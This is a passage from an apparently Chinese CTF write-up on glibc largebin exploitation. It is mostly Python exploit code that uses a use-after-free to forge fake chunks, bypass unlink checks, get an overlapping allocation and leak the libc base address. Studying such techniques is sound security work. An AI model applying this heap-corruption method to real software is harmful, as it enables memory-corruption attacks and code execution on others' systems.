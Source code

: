 ![](largebin_1adcc332cf761488a7448bcbf8a457de.png)

我们之前free的3号和5号chunk,chunk大小分别为0x410(3号)和0x400(5号),如图1

接着我们通过修改UAF修改了3号的`bk_nextsize`,通过这两行代码造出了如图2的链
```python
pay = p64(heap+0x3e0) #bk_nextsize
pay += 'a'*0x300 #padding
#bypass fd,bk assert for unlink chunk A
pay += p64(0xdeadbeef)+p64(heap+0x3e0)+p64(heap+0x3e0)+p64(0xdeadbeef)
#fake chunk A (prev_size + size + fd + bk + fd_nextsize + bk_nextsize)
pay += p64(0)+p64(0x411)+p64(heap+0x3b0)+p64(heap+0x3c0)+p64(heap+0x90)+p64(heap+0x570)

edit(3,pay)

pay = p64(heap+0x90) #untouched
#0x540
# fake chunk B (prev_size + size + fd + bk + fd_nextsize + bk_nextsize)
pay+= p64(0)+p64(0x411)+p64(0)+p64(0)+p64(heap+0x3e0)+p64(0)
pay = pay.ljust(0x280,'\x00')
# fake chunk A end
pay+=p64(0x410)+p64(0x410)
edit(5,pay)
```

接着,只要分配的大小合适,系统就会去unlink fake chunk A.

这里牵涉到malloc中largebin的分配原则,我们看一下源码

![](largebin_8025bba1cf199a063e59a0563c811f84.png)



```python
dele(0) #留空,防止idx 3,5 被覆盖
add(0x410-0x20,'QQQQQQQQ') #0 get fake chunk A
#recover 否则后续的malloc会出错
edit(3,p64(heap+0x540)) #largebin的list恢复正常
add(0x410-0x20,'X') #3
add(0x400-0x20,'Y') #5

dele(7) #970 两个smallbin
dele(4) #4a0

edit(0,'Q'*(8+0x90)+'X'*0x10) #想要去leak chunk 4 的fd,但read_n有0截断,此时无法leak
add(0x80,'4') #上面dele(7)的smallbin被取走,此时chunk4的fd和bk被重写,从而0截断消失
show(0)#leak出chunk 4的fd

cn.recvuntil('X'*0x10)
main_arena=0x3c4b20

libc_base = u64(cn.recvuntil('\n')[:-1].ljust(8,'\x00'))-main_arena-88
success('libc_base: '+hex(libc_base))
```
